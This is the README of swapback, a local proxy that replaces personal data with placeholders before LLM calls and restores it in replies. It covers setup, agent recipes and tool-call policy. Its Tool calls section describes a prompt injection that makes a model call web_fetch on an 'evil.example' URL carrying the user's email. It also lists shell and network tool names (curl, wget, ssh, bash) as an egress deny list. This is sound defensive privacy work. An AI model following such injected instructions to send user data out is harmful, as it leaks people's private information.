


<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/rmpmrepo1278/swapback/blob/main/LICENSE"></a>
  
  <a href="https://github.com/rmpmrepo1278/swapback/actions/workflows/tests.yml"></a>
  
</p>

<p align="center"><b>A local proxy that swaps personal data for placeholders before an LLM call and restores it, byte-exact, in the reply.</b></p>

---

## Why

Agents and chat apps send everything to the model provider: names, emails, phone numbers, account numbers, API keys
pasted into a log. Most of the time the model does not need the real value, only a stable stand-in for it.

`swapback` sits on loopback between your client and an OpenAI-compatible API. It replaces the values you list and
the patterns it detects with placeholders like `«PERSON_1»`, forwards the request, and puts the exact original text back
into the answer, including streamed answers and tool-call arguments. Tool calls that could carry a value off your
machine (web, shell and send-style tools, or any call with a URL in it) keep the placeholders by default. If anything goes
wrong while scrubbing, the request is blocked, not sent.

- **Byte-exact restore.** The reply gets back the string as you wrote it: same case, same phone format, same spacing.
- **Fails closed.** A scrub error, an unreadable body, an empty known file or a known value still present after the
  swap answers `503`, with a message in the API's own error shape that says what was blocked and why, so the agent
  can show it, plus one log line on stderr.
- **Agent-neutral.** Works with any client that lets you set a base URL. Tool-call arguments are restored for any tool,
  except calls that look like network or shell egress, which keep placeholders unless you allow them
  ([Tool calls](#tool-calls)).
- **No model needed.** Exact matching plus patterns. No NER model, no GPU, three small dependencies.

<p align="center"></p>

## Quickstart (10 seconds, no API key)

Needs Python 3.11 or newer.

```bash
pip install swapback
swapback demo
```

`swapback demo` starts a built-in fake model that echoes what it receives, puts the proxy in front of it, and sends a
plain, a streamed and a tool-call request with made-up data. No config, no key, no network. Output (abridged):

```text
1) your app sends
   Email Jane Q Doe at jane.doe@example.com or call (425) 555-0182 about Friday.
2) the model receives
   Email «PERSON_1» at «EMAIL_1» or call «PHONE_1» about Friday.
3) your app gets back
   You said: Email Jane Q Doe at jane.doe@example.com or call (425) 555-0182 about Friday.
...
5) tool calls: the model asks to fetch a URL and to send an email
   web_fetch  {"url": "https://lookup.example/?q=«EMAIL_1»"}
   send_email {"to": "jane.doe@example.com", "body": "Hi, about Friday"}
PASS: the model never saw the made-up name, email or phone, and every reply came back exact.
```

From a clone, `examples/` has the same mock as a script (`examples/mock_upstream.py`, `examples/quickstart.yaml`,
`examples/curl_demo.sh`) if you want to run the two processes yourself.

### Set it up for a real provider

```bash
swapback init          # writes swapback.yaml, known.yaml and private_terms.example.yaml (0600) from the shipped examples
                       # then EDIT known.yaml: your names, emails, phones (see Configuration)
cp private_terms.example.yaml private_terms.yaml    # optional: codenames and money figures
```

`swapback init` never overwrites a file unless you pass `--force`; from a clone, the same examples sit in the repo root.

In `swapback.yaml`:

```yaml
upstream: https://api.openai.com      # a base URL WITHOUT /v1: the proxy appends the client's own path
known_file: known.yaml
private_terms_file: private_terms.yaml   # leave "" if you skipped the private terms file
```

### Build known.yaml from your contacts

Names are only swapped if they are in your known file, so most of the value is in that list. Instead of typing it,
build it from a contacts export:

```bash
swapback known init --vcf contacts.vcf                 # iPhone / macOS / Android export (vCard 2.1, 3.0, 4.0)
swapback known init --csv google_contacts.csv          # Google or Outlook CSV, or any name/email/phone columns
swapback known init --scan past_prompts.jsonl          # suggests names, emails, phones you have actually sent
```

- It reads full names, emails, phone numbers and street addresses, and merges them into `known_file` (or `--out`)
  without duplicates: `Jane Doe` and `jane doe`, or `425-555-0101` and `(425) 555-0101`, count once.
- The file is written with mode `0600`. Comments in an existing file are not kept.
- It prints counts only. `--show` also prints the values, `--dry-run` writes nothing.
- One-word contacts that are relations or common words (`Mom`, `Dentist`, `Will`) are skipped: matching is
  case-insensitive, so they would swap ordinary words. `--first-names` also adds each contact's first name on its own,
  with the same skip list.
- `--scan` reads text or JSONL (any JSON strings in it) and writes candidates to `known.suggestions.yaml`: emails and
  phones it finds, and capitalised two- or three-word names seen at least twice (`--min-count`). Suggestions are never
  used or merged on their own. Delete what is not personal, then merge with `swapback known init --yaml
  known.suggestions.yaml`.

Only Python's standard library and the existing dependencies are used; nothing is sent anywhere.

Edit or build `known.yaml` **before** you start the proxy. The example values are fake (`check-config` warns while they
are still there), and a configured `known_file` that is missing or empty blocks every request (`503`, fail-closed). Then:

```bash
swapback check-config     # counts per type, never values
swapback-proxy            # listens on 127.0.0.1:8787
```

Point your client at the proxy. It keeps its usual path; only the host changes:

```python
from openai import OpenAI
client = OpenAI(base_url="http://127.0.0.1:8787/v1", api_key="sk-...")   # your key is forwarded as is
```

`upstream` is joined with the client's path, so `upstream: https://api.openai.com/v1` would request `/v1/v1/...`.
Other providers work the same way: `upstream: https://openrouter.ai` with client base URL
`http://127.0.0.1:8787/api/v1`; `upstream: https://api.anthropic.com` with an Anthropic SDK base URL of
`http://127.0.0.1:8787`.

## Use with agents

Any agent that lets you set a provider base URL can sit behind the proxy. Tested end to end with
[OpenClaw](https://github.com/openclaw/openclaw) 2026.10.7: a fresh clone, the steps above and one provider block gave a
scrubbed chat in a few minutes; replies, streamed replies and tool calls came back with the real values. Since 0.3.0
OpenClaw's `exec`, `web_fetch`, `web_search`, `browser` and `message` tools keep placeholders by default
(see [Tool calls](#tool-calls)).

```json5
// OpenClaw config (openclaw.json)
{
  models: { providers: { scrub: {
    baseUrl: "http://127.0.0.1:8787/v1",   // swapback
    apiKey: "${PROVIDER_API_KEY}",         // your provider key; the proxy forwards it unchanged
    api: "openai-completions",
    models: [{ id: "your-model", name: "your-model via swapback", reasoning: false, input: ["text"],
               cost: { input: 0, output: 0, cacheRead: 0, cacheWrite: 0 }, contextWindow: 128000, maxTokens: 4096 }],
  } } },
  agents: { defaults: { model: { primary: "scrub/your-model" } } },
}
```

`api: "openai-completions"` was tested against a live model. `api: "anthropic-messages"` works from 0.1.1, which
restores Anthropic Messages streams (before, streamed replies in that mode kept their placeholders): set `baseUrl` to
`http://127.0.0.1:8787` (no `/v1`) and the proxy's `upstream` to an Anthropic-compatible endpoint. That mode was checked
end to end with OpenClaw against a mock Anthropic upstream, not yet against a live Claude model.

**What a block looks like in an agent.** When the proxy blocks a request (fail-closed), it answers `503` in the error
shape of the API the client called (OpenAI `{"error": {...}}`, Anthropic `{"type": "error", ...}`), with the header
`X-Swapback-Blocked` and a message written for a person: `swapback blocked this request (fail-closed), so nothing was
sent to the model: <reason>. Run swapback health for details.` Agents that show the provider's error message show
this one, usually after retrying a few times. Some show only a generic error (in our 0.4.0 test, OpenClaw said it
couldn't connect to the AI service), so the proxy also prints one line per block on stderr
(`swapback: blocked POST /v1/chat/completions: <reason>`; never a value). To see more:

```bash
swapback health                          # mode, counters, last_error
tail -n 5 ~/.local/state/swapback/requests.jsonl   # one line per request: status, blocked, error, swap counts
```

The usual causes are a missing or broken `known_file` / `private_terms_file`, a non-JSON or compressed body on a model
endpoint, or a known value still present after the swap.

**Check what the provider saw.** `requests.jsonl` records counts and types, never the text. To prove the provider got
placeholders only, run `swapback canary` (set `canary_model` first): it sends a fake name and email through the
running proxy, checks the provider's raw answer (`X-Scrubber-Raw: 1`) for the fake values and checks the restored answer
for them. `python examples/smoke.py` runs the same check offline against the mock upstream.

## How it works

<p align="center"></p>

1. **Swap.** Every string in the JSON request body is scanned. Values from your known-values file are matched as whole
   words, case-insensitively, in their common written variants (a phone number also matches `(425) 555-0182`,
   `425.555.0182`, `+14255550182`, ...; a multi-word value also matches with its words joined by non-breaking or
   repeated spaces, tabs, zero-width characters, `.`, `_`, `-` or `%20`, so `Jane.Q.Doe`, `JANE Q DOE` and
   `Jane%20Q%20Doe` are the same person under one placeholder). Detectors then catch what you did not list:
   - phone numbers via [`phonenumbers`](https://github.com/daviddrysdale/python-phonenumbers);
   - email, credit card (Luhn), IBAN, US SSN, IP address and profile URLs, from
     [Microsoft Presidio](https://github.com/microsoft/presidio)'s predefined recognizer patterns;
   - API keys and tokens, from the [gitleaks](https://github.com/gitleaks/gitleaks) default rules;
   - a few local rules: street addresses, keyword-anchored account numbers and dates of birth, order numbers, and
     gap rules for emails written as `name [at] example [dot] org` or with a full-width `＠` or hidden zero-width
     characters, and IPv6 addresses.
2. **Re-check.** After the swap, every outgoing string is checked again for known values, with the same variant rules.
   If one is left, the request is blocked.
3. **Forward or block.** Paths, headers (including `Authorization`) and the model name pass through unchanged. Any error
   while scrubbing answers `503` with a `scrubber_error`, and nothing is forwarded.
4. **Restore.** Placeholders in the reply are swapped back to the original text: plain JSON responses anywhere in the
   body, OpenAI-style `chat.completion.chunk` SSE streams, OpenAI Responses API streams (`output_text`, refusal and
   reasoning deltas, `function_call_arguments` and `custom_tool_call_input` deltas, and the `.done` and
   `response.completed` snapshots) and Anthropic Messages streams (`text_delta`, and `input_json_delta` for
   `tool_use`), delta by delta. A placeholder split across chunks is held back until complete.
   Values inside tool-call arguments are JSON-escaped. Each variant comes back exactly as it was written in the request.

Placeholders are stable: a local vault (`vault.json`, mode `0600`) maps each value to the same placeholder across
requests, so multi-turn conversations stay coherent. A short system note asks the model to keep placeholders as written.
It is appended to your system prompt wherever the API keeps it: an OpenAI `system` or `developer` message (string or
content parts), Anthropic's top-level `system` (string or blocks) or the Responses API `instructions`. When the request
has no system prompt, one is added only if the request carries placeholders.

Every free-text field is scrubbed, including `user`, `metadata` and `instructions`. Only structural fields (`model`,
`role`, `type`, ids, `tool_choice`, `response_format`, `stop`, `reasoning_effort`, `service_tier` and function names)
are skipped, and those are still checked for known values before anything is sent.

Known names that are one segment of a filesystem path (`/home/jane/notes.md`) are left alone, so agents' file tools keep
working. URLs and domains are still scrubbed.

## Tool calls

A tool call's arguments are executed by your client, not by the provider. If the proxy puts real values back into
every tool call, a prompt-injected model can send them anywhere a tool can reach. For example, a web page tells the
model to "fetch" this:

```json
{"name": "web_fetch", "arguments": "{\"url\": \"https://evil.example/c?d=«EMAIL_1»\"}"}
```

With a plain restore, your client fetches `https://evil.example/c?d=you@example.com`. Since 0.3.0 that call keeps
`«EMAIL_1»`, and the request log counts it as `tool_kept` (a number, never the value).

The default policy, per tool call:

1. a name in `deny` keeps placeholders; a name in `allow` gets real values (names are case-insensitive globs, e.g.
   `mcp__github__*`);
2. a name that looks like network or shell egress keeps placeholders. The name is split into words (`WebFetch` →
   `web fetch`, `exec_command` → `exec command`) and matched against `egress_names`: `fetch`, `http`, `curl`,
   `wget`, `web`, `browse`, `request`, `url`, `navigate`, `download`, `upload`, `exec`, `shell`, `bash`, `sh`, `zsh`,
   `cmd`, `terminal`, `run`, `ssh`, `scp`, `rsync`, `git_push`, `push`, `email`, `mail`, `send`, `post`, `message`,
   `webhook`, `notify`, `publish` (some match word prefixes, e.g. `web*`; see `swapback.example.yaml`);
3. any other call keeps placeholders when one of its arguments is or contains a URL (`keep_if_url`);
4. everything else, such as `read_file` or `lookup_contact` without a URL, gets the real values back.

This applies to plain JSON replies and to streams (OpenAI chat chunks and Anthropic `tool_use`). When the name alone
does not decide, a streamed call's arguments are held until the call is complete and then sent in one piece.

The trade-off: an egress tool that you want to receive real values, such as your own `send_email`, now gets
placeholders until you allow it. Allow only tools whose destination you control.

```yaml
tool_restore:
  default: restore        # tools nothing else matches; `keep` = placeholders everywhere unless allowed
  keep_if_url: true
  allow: [send_email]     # always real values
  deny: [lookup_contact]  # never real values
  # egress_names: [...]   # replaces the built-in list
```

`tool_restore: false` restores every tool call, as 0.2 did.

## Framework recipes

`tool_restore` is plain config; nothing in swapback knows any framework. These are starting points for common agents.
Tool names were checked against each project's own docs on 2026-11-09 unless marked unverified. "Kept by default"
means the built-in egress list already matches the name (`swapback check-config` shows the policy you end up with).

**Generic, strict.** Placeholders everywhere except the one or two tools that must address real people, ideally tools
that ask you before they act:

```yaml
tool_restore:
  default: keep
  allow: [send_email]          # your own tool names
```

**OpenClaw** (2026.10.7, from its tools index). Kept by default: `exec`, `terminal`, `code_execution`, `web_fetch`,
`web_search`, `browser`, `message`. Real values: `read`, `write`, `edit`, `apply_patch`, `cron`.

```yaml
tool_restore:
  allow: [message]             # only if replies go to your own channels or you approve each send:
                               # `message` can address any channel, so allowing it lets it carry real values out
  deny: [process, x_search, nodes]   # process writes to running commands; x_search queries X; nodes reaches
                                     # paired devices. None of these match the built-in list.
```

**Claude Code** (from its tools reference). Kept by default: `Bash`, `PowerShell`, `WebFetch`, `WebSearch`,
`SendMessage`, `PushNotification`. Real values: `Read`, `Write`, `Edit`, `NotebookEdit`, `Glob`, `Grep`, so files on
your machine stay correct. Nothing to add for most setups; `deny: [RemoteTrigger]` if you use remote triggers.

**Codex CLI** (tool names unverified: taken from third-party write-ups, not from Codex's source). Kept by default:
`exec_command`, `shell`, `web_search`. `write_stdin` sends input to a running command and does not match the built-in
list:

```yaml
tool_restore:
  deny: [write_stdin]
```

## Configuration

Copy `swapback.example.yaml` to `swapback.yaml`, or point `SWAPBACK_CONFIG` at any file. Every key is optional
and has an environment override. Relative paths are relative to the config file. A minimal working setup is in
[`examples/`](https://github.com/rmpmrepo1278/swapback/tree/main/examples).

| key | env | default | |
|---|---|---|---|
| `mode` | `SWAPBACK_MODE` | `on` | `on` swap + restore; `watch` count only, forward the original; `off` pass through |
| `listen` | `SWAPBACK_LISTEN` | `127.0.0.1:8787` | loopback only unless `allow_remote: true` |
| `upstream` | `SWAPBACK_UPSTREAM` | `https://api.openai.com` | any OpenAI-compatible base URL (OpenRouter, LiteLLM, vLLM, llama.cpp, ...) |
| `known_file` | `SWAPBACK_KNOWN_FILE` | none | your known values; configured but missing or empty means requests are blocked |
| `private_terms_file` | `SWAPBACK_PRIVATE_TERMS` | none | codenames and figures that must not leave (below) |
| `state_dir` | `SWAPBACK_STATE_DIR` | `~/.local/state/swapback` | vault and request log |
| `alert_webhook` | `SWAPBACK_ALERT_WEBHOOK` | none | POSTs `{"text": ...}` when a request is blocked or the canary fails |
| `canary_model` | `SWAPBACK_CANARY_MODEL` | none | model used by `swapback canary` |

Renamed from pii-scrubber in 0.2.0: the old `PII_SCRUBBER_*` variables are still read when the `SWAPBACK_*` one is unset, but they are deprecated.

Also: `tool_restore` (see [Tool calls](#tool-calls)), `hooks` (see [Hooks](#hooks)), `phone_regions`, `url_swap`, `patterns` (turn single detectors
off, e.g. `{IP: false}`), `extra_secret_rules`, `log_requests`, `alert_min_interval_s`, `system_note`.

**Known values** (`known.example.yaml`). The exact strings to swap, by type. The file is re-read whenever its content
changes (also a save by rename); no restart needed. Guard rails, so a broken file never silently protects nothing:

- A configured known file with no values blocks every request (set `allow_empty_known: true` if you mean it).
- If a reload finds the file empty or less than half its previous size, the proxy keeps protecting the previous values
  as well, sends an alert and lists a warning in `/scrubber/health`. Restart the proxy to accept a smaller list.
- `swapback check-config`, the proxy's start line and `/scrubber/health` warn when the made-up example values from
  `swapback init` are still in the file, and when a listed name is also an ordinary phrase (`Will Hunt` also matches
  "I will hunt for the keys", because matching ignores case). Warnings name line numbers, never values.

A listed name also matches surname first (`Doe, Jane Q`) and without accents (`Anais` for `Anaïs`); a listed ID also
matches with its spaces and dashes removed (`QQ123456C` for `QQ 12 34 56 C`). Every variant shares the value's placeholder.

```yaml
PERSON:
  - Jane Q Doe
EMAIL:
  - jdoe@corp.example
PHONE:
  - "425-555-0182"        # also matches (425) 555-0182, 425.555.0182, +14255550182, ...
```

**Phones.** A listed phone is matched as you wrote it and by its digits in any grouping, with or without a country
code or leading 0 (`98765 43210` also matches `+91 9876543210`). The common US formats are added only for numbers
that are actually US. `phone_regions` (default `[US]`) is a different setting: it tells the *pattern detector* which
countries' numbers to find when they are not listed and written without a `+` country code. Add yours, e.g.
`phone_regions: [US, IN, AU]`.

**Private terms** (`private_terms.example.yaml`). Things that are not PII but must not leave: phrases or regexes become
`«PRIVATE_TERM_n»`, and money amounts are matched in every written form (`$2.47B`, `2.47 billion`, `$2,470M`) as
`«PRIVATE_FIGURE_n»`.

```yaml
terms:
  - Project Bluebird
  - {regex: "11[\\s-]*FTEs?"}
figures:
  - 2470000000
```

**CLI.** `swapback check-config` (counts per type, never values), `swapback stats`, `swapback health`,
`swapback scrub-file request.json`, and `swapback canary`, which sends a fake name and email through the running
proxy and checks that the provider saw only placeholders and the client got the values back. `GET /scrubber/health` on
the proxy returns counters. Every command takes `--help` and `--version`; `swapback-proxy --help` lists the settings it reads and exits without starting.

## Hooks

Swapback can call your own Python code at a few points of each request, for things that belong next to the privacy
filter but are not part of it: a spend cap, a fallback to a local model when the provider is down or over quota,
usage accounting, an extra health endpoint. Name a module (or a `.py` file, relative to the config file) in
`swapback.yaml`; every function in it is optional:

```yaml
hooks:
  module: spend_cap.py        # or an importable module name; entry_point: <name> reads the swapback.hooks group
  options: {daily_usd: 5}     # handed to setup()
```

| function | when | may return |
|---|---|---|
| `setup(options, cfg)` | once, at start | |
| `before_forward(req, ctx)` | before each request goes upstream | `None`, a new route `{"url", "body", "headers", "timeout_s"}`, or `{"respond": {"status", "json"}}` to answer without calling anyone |
| `on_upstream_response(resp, ctx)` | the upstream answered >= 400 or was unreachable (`resp.status` is `None`) | `None`, or a route to try once instead |
| `on_usage(obj, ctx)` | each JSON reply and each SSE event, as the provider sent it | |
| `on_complete(result, ctx)` | once per request, after the reply (`status`, response `headers`, `rerouted`) | |
| `extra_routes()` | at start | `{"/path": fn}`: extra GET endpoints, `fn()` returns JSON or `(status, json)` |
| `alert(text)` | instead of `alert_webhook` | |

`req` has `method`, `path`, `headers` (the outgoing headers; edit it in place, for example to drop a header only your
hook reads), `body` (parsed JSON, read-only: return `{"body": ...}` to change it) and `api` (`chat`, `anthropic`,
`responses`). `ctx` is one dict per request shared by all calls; anything you put in `ctx["log"]` is written to
`requests.jsonl` under `hook` (keep it to counts and short words).

**Hooks never see real values.** In `mode: on` they get the request after scrubbing and the replies before restore,
so `«EMAIL_1»`, not the address. A rerouted or locally answered reply is restored like any other. In `watch` and
`off` nothing is scrubbed, so a hook sees what is forwarded.

**Failure policy.** An exception in `setup` stops the proxy from starting. An exception in `before_forward` or
`on_upstream_response` fails closed: 503, nothing forwarded, an alert, like a scrub error. `on_usage`, `on_complete`
and `alert` run after the reply has started, so their exceptions are only counted (`hook_errors` in
`/scrubber/health`). A changed `hooks` section needs a restart.

A daily spend cap that falls back to a local llama.cpp server once the cap is reached:

```python
# spend_cap.py
import datetime
SPENT, OPT = {}, {}
PRICE = {"prompt_tokens": 3e-6, "completion_tokens": 15e-6}      # USD per token, your provider's prices

def setup(options, cfg):
    OPT.update(options)

def _today():
    return datetime.date.today().isoformat()

def before_forward(req, ctx):
    if SPENT.get(_today(), 0) >= OPT["daily_usd"] and req.api == "chat":
        ctx["log"]["capped"] = 1
        return {"url": "http://127.0.0.1:8080/v1/chat/completions", "body": dict(req.body, model="local")}

def on_upstream_response(resp, ctx):                  # provider down or over quota: same request, local model
    if resp.status is None or resp.status in (429, 503):
        return {"url": "http://127.0.0.1:8080/v1/chat/completions", "body": dict(ctx["request"].body, model="local")}

def on_usage(obj, ctx):
    u = obj.get("usage") if isinstance(obj, dict) else None
    if u:
        SPENT[_today()] = SPENT.get(_today(), 0) + sum(u.get(k, 0) * p for k, p in PRICE.items())

def extra_routes():
    return {"/spend": lambda: {"today_usd": round(SPENT.get(_today(), 0), 4), "cap_usd": OPT["daily_usd"]}}
```

`swapback check-config` lists the hook functions it found.

## Comparison

Other open-source projects do the same job. This table reflects each project's own README and docs as read on
2026-11-09; "unclear" means we could not confirm it there. Corrections are welcome.

| | **swapback** | [PasteGuard][pg] | [Maskit][mk] | [Veil][vl] | [piighost][ph] | [Kiji Privacy Proxy][kj] |
|---|---|---|---|---|---|---|
| License | MIT | Apache-2.0 | AGPL-3.0 | Apache-2.0 | MIT | Apache-2.0 |
| Stack | Python 3.11+, 3 deps, stdlib HTTP server | TypeScript on Bun + GLiNER detector service; Docker | Python engine + desktop app; Docker | Python 3.11+ (PyPI, Homebrew) | Python library (PyPI); HTTP proxy in a separate repo, piighost-api | Go server + Electron desktop app; Docker, systemd |
| Needs an ML model | No | Yes: GLiNER for names and places ([docs][pg-sem]) | Ships a local ONNX NER model | Optional: 46 MB ONNX NER | Optional: pluggable regex, NER or LLM detectors; exact-match needs none | Yes: local ONNX model, 26 PII types |
| Your own list of values | Yes, typed, reloaded live | Yes: `denylist` patterns ([docs][pg-mask]) | Yes: custom words and regexes | Yes: seeded from your data sources | Yes: `ExactMatchDetector` | Custom regex rules |
| Stand-ins | Typed placeholders (`«EMAIL_1»`) | Placeholders | Unclear | Pseudonyms | Typed placeholders (`<<EMAIL:1>>`) | Realistic dummy values |
| Restores values in replies | Yes, byte-exact as written | Yes ("supported placeholders") | Yes | Yes | Yes | Yes |
| Streaming restore | OpenAI Chat and Responses, Anthropic Messages SSE | Yes | Yes (SSE) | Unclear per API | Unclear | Unclear |
| Tool-call arguments | Real values for local tools; placeholders kept for web, shell and send-style tools and any call with a URL, by default; `tool_restore` allow/deny lists | Unclear | Unclear | Per-tool policy: unknown and network tools get pseudonyms | Restored for tools (LangChain middleware); per-tool policy unclear | Unclear |
| On a scrub error | Fails closed (`503`) + egress re-check | Unclear | Unclear; documents a passthrough that forwards plaintext when masking is off or the app exits | Fails closed (`502`) + second guard | Unclear | Unclear |
| APIs | OpenAI Chat and Responses, Anthropic Messages (JSON and streaming) | OpenAI Chat + Responses, Anthropic, Codex | OpenAI, DeepSeek, Anthropic | Anthropic Messages, OpenAI Chat + Responses, Bedrock, Vertex, more | OpenAI and Anthropic connectors; LangChain, Pydantic AI, LlamaIndex, Claude Code integrations | OpenAI; Anthropic named in its diagram |
| Beyond text | No; [hooks](#hooks) for spend caps and local fallback | Browser extension, dashboard, route-to-local-LLM mode | Image/PDF OCR redaction, browser extension, dashboard | Encrypted vault, DB seeding, shell-safe escaping, MCP DB tool | Agent-framework middleware, chat UI example | Desktop UI, Chrome extension |

**Where swapback fits:** you want something small you can read in an afternoon, that never needs a model, restores
the exact original text where your tools need it, keeps placeholders where a tool could send it out, and blocks rather than leaks. **Where others are stronger:** names you
never listed (PasteGuard, Maskit and Kiji, and the optional NER in Veil and piighost), more APIs and streaming formats (all three), images and documents
(Maskit), coding-agent hardening such as escaping restored values for shells (Veil), framework middleware
(piighost) and a desktop app (Kiji).

[pg]: https://github.com/sgasser/pasteguard
[pg-mask]: https://pasteguard.com/docs/concepts/mask-mode
[pg-sem]: https://github.com/sgasser/pasteguard#how-detection-works
[mk]: https://github.com/xiaYuTian11/maskit
[vl]: https://github.com/lemonadesaltbagel/veil
[ph]: https://github.com/Athroniaeth/piighost
[kj]: https://github.com/dataiku/kiji-proxy

## Limits

### What it doesn't catch yet

Checked against 0.3.0 with nothing listed in `known.yaml`:

- **Names you haven't listed.** There is no NER model, so "Priya Raman" in free text goes out as written.
- **Dates of birth, unless right after an English label.** `Date of birth: 14/03/1987`, `DOB 1987-03-14` and
  `born on March 14, 1987` are caught. `Birthdate`, `DOB = …`, `born 21 March 1981`, other languages and unlabelled
  dates are not.
- **National IDs other than the US SSN.** UK National Insurance, Canadian SIN, Indian Aadhaar and PAN, passport and
  driving licence numbers pass through.
- **Most addresses outside the US street format.** A "number, street name, suffix" line is caught (`10 Downing Street`);
  postcodes, cities, PO boxes and formats like `Calle Mayor 5` or `12 rue de Rivoli` are not.
- **Free-form secrets and other identifiers.** Passwords, recovery codes, medical record numbers and coordinates are
  missed unless a rule covers them.
- **Other streaming formats.** Legacy chat `function_call` deltas (the pre-tools format), Gemini's native API and
  other provider-specific streams pass through with their placeholders. OpenAI chat, OpenAI Responses and Anthropic
  Messages streams are restored.

Listing a value in `known.yaml` or `private_terms.yaml` covers any of these. The details:

- **No NER.** It swaps what you list and what the patterns match. A name you never listed, written in free text, goes
  out as written. Keep the known-values file current.
- **Pattern coverage is what the rules cover.** Phone numbers, emails, cards (Luhn), IBANs, US SSNs, IPs, profile URLs,
  common API keys and a few local rules. National IDs other than the US SSN, free-form addresses, dates of birth in
  most label forms and many other formats are not detected unless you list them. See the measured score below.
- **Whole words, case-insensitive.** `Jane` does not match `Janet`. Separator and case variants of a listed multi-word
  value are caught (see How it works); nicknames, misspellings and other spellings need their own entries.
- **Variants and restore.** All written variants of one listed value share one placeholder. A reply gets back the forms
  written in the same request, in order of occurrence; a reply with more mentions than the request reuses the last one.
  With no request context (`restore_text` on its own, the CLI) the spelling from your known file comes back.
- **Streaming.** OpenAI `chat.completion.chunk`, OpenAI Responses API (`/v1/responses`, as used by Codex) and Anthropic
  Messages streams are restored. Anthropic `thinking` deltas are left as sent, since they are signed. Other streams pass
  through with placeholders left in. When a held-back piece is sent as an extra Responses delta, later
  `sequence_number`s are shifted so they stay unique and increasing. Non-streaming JSON replies of any shape are restored. The restore holds back at most one partial
  placeholder (up to 24 characters) per stream, so chunks can arrive slightly regrouped; the text is unchanged.
- **JSON bodies only.** Multipart uploads and binary bodies pass through untouched; `data:` URLs (images) are not scanned.
  Token-id inputs to embeddings and completions are blocked, since they cannot be checked.
- **The tool policy is a heuristic.** It reads tool names and looks for URLs. A tool with a harmless name that still
  sends data out (say `notes_sync` posting to a server) gets real values unless you `deny` it or set
  `default: keep`. A value can also leave through a tool that writes a file which something else uploads later.
- **The model sees placeholders.** Answers that depend on the real value (spell this name, count the digits) will be
  wrong or vague.
- **One vault, one machine.** Placeholders are stable across all conversations on one machine. It is a single-process
  tool meant to run next to the client on loopback.

## Performance

Measured by `tests/test_latency.py` on a synthetic chat request of about 19,000 characters with 13 messages, on a
laptop CPU (AMD Ryzen 7 4700U, Python 3.13):

| | median | max (20 runs) |
|---|---|---|
| first time a text is seen (cold) | 7.1 ms | 10.1 ms |
| repeated text (cached, typical for a growing chat history) | 0.13 ms | 0.14 ms |

## Security notes

- The proxy listens on loopback and refuses other addresses unless you set `allow_remote: true`. It has no
  authentication of its own; anything that can reach the port can use it.
- Your provider key passes through in the `Authorization` header and is not stored.
- The vault (`vault.json`) holds the real values in plain JSON, readable only by your user (`0600`). Treat the state
  directory as sensitive.
- Tool calls that look like network or shell egress, or carry a URL, keep placeholders by default, so a prompt-injected
  model cannot have your client send real values out through them. See [Tool calls](#tool-calls).
- The request log records counts and types per request, never values.
- `X-Scrubber-Raw: 1` returns the provider's answer without the restore. The canary uses it to prove what the provider saw.
- Report vulnerabilities privately; see [SECURITY.md](https://github.com/rmpmrepo1278/swapback/blob/main/SECURITY.md).

## Detection score (patterns only)

`evals/holdout3.json` holds 64 synthetic cases (invented values only): 42 with something to catch, 22 that must pass
untouched. `python evals/run_holdout.py` scores the pattern detectors with **no known values listed**, so it measures
what the scrubber finds on its own. A case counts as caught only if every character of the expected value is swapped.
These numbers are not tuned to the holdout; the 0.1.1 rules are generic (bracketed at/dot emails, full-width `＠` and
zero-width characters in emails, IPv6).

| Category | 0.1.0 | 0.1.1 to 0.2.1 |
|---|---|---|
| EMAIL | 1/5 | 5/5 |
| IP address | 2/4 | 4/4 |
| SSN | 2/2 | 2/2 |
| PHONE | 2/5 | 2/5 |
| ADDRESS | 2/6 | 2/6 |
| SECRET (keys, passwords, passport/licence IDs) | 1/9 | 1/9 |
| DATE OF BIRTH | 0/5 | 0/5 |
| PERSON (no NER, by design) | 0/6 | 0/6 |
| **All 42 positives** | **10/42** | **16/42** |
| Negatives left untouched | 22/22 | 22/22 |
| Round trip exact | 64/64 | 64/64 |

Read it plainly: with nothing listed, the patterns catch well-formed contact data and miss most free-form secrets,
names, dates of birth and non-US addresses. The two phone misses are UK fictional-range numbers (07700 900xxx) that
the phone library rejects as invalid. **List what matters to you in `known.yaml` and `private_terms.yaml`;** listed
values are caught in every written variant above.

## Development

```bash
pip install -e ".[test]"
pytest -q                      # the full suite, including the holdout score as a regression floor
python evals/run_holdout.py    # the table above (--misses lists the cases not caught)
python examples/smoke.py       # end-to-end: mock upstream + proxy, plain and streamed
```

The vendored rule sets live
